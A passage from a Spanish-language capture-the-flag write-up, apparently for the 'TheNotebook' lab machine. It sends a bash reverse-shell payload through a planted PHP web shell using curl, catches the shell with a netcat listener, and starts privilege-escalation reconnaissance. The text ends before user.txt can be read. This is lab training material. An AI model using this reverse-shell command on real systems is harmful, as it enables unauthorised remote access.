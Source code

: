 Ponemos netcat en modo escucha y reemplazamos `id` con una carga útil de reverse shell:

```bash
curl --data-urlencode "cmd=/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.19/443 0>&1'" -G -s http://10.10.10.230/a1ba6293840f8a8fb4d5dda74c98c90a.php
```

```bash
nc -nlvp 443
```

Y tenemos una shell:

```bash
www-data@thenotebook:~/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Escalada de privilegios

### Reconocimiento del sistema

Buscamos la flag sin poder verla, así que debemos buscar formas de escalar privilegios.

`ifconfig` muestra que estoy en la máquina host (10.10.10.230), pero también que hay una red Docker:

```
docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:91:98:d2:78  txqueuelen 0  (Ethernet)
        RX packets 164784  bytes 22121111 (22.1 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 198504  bytes 16853611 (16.8 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Revisamos el directorio home:

```bash
www-data@thenotebook:/home$ ls -la noah/
total 36
drwxr-xr-x 5 noah noah 4096 Feb 23 08:57 .
drwxr-xr-x 3 root root 4096 Feb 19 13:49 ..
lrwxrwxrwx 1 root root    9 Feb 17 09:03 .bash_history -> /dev/null
-rw-r--r-- 1 noah noah  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 noah noah 3771 Apr  4  2018 .bashrc
drwx------ 2 noah noah 4096 Feb 19 13:49 .cache
drwx------ 3 noah noah 4096 Feb 19 13:49 .gnupg
-rw-r--r-- 1 noah noah  807 Apr  4  2018 .profile
drwx------ 2 noah noah 4096 Feb 19 13:49 .ssh
lrwxrwxrwx 1 noah noah    9 Feb 23 08:57 .viminfo -> /dev/null
-r-------- 1 noah noah   33 Jul 21 21:21 user.txt
```

`user.txt` está ahí, pero no puedo leerlo como www-data.

